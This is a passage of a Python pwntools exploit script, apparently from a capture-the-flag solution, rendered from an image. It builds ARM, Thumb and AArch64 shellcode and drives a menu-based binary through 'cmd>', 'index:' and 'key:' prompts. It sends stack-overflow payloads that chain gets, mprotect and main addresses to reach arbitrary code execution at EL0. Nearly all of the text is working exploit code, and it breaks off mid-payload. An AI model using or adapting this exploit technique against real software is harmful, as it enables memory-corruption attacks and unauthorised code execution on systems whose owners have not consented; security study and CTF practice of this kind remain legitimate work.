 ```python
EL0_RET = 0x0040_0100


def make_32_shellcode(assembly: str) -> bytes:
    context.arch = "arm"
    context.bits = 32
    context.endian = "little"
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def make_thumb_shellcode(assembly: str) -> bytes:
    context.arch = "thumb"
    context.bits = 32
    context.endian = "little"
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def make_64_shellcode(assembly: str) -> bytes:
    context.arch = "aarch64"
    context.bits = 64
    context.endian = "little"
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(elf.symbols["gets"])
    pl += p64(elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_64_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(elf.symbols["main"] + 0x44)
    pl += p64(elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
```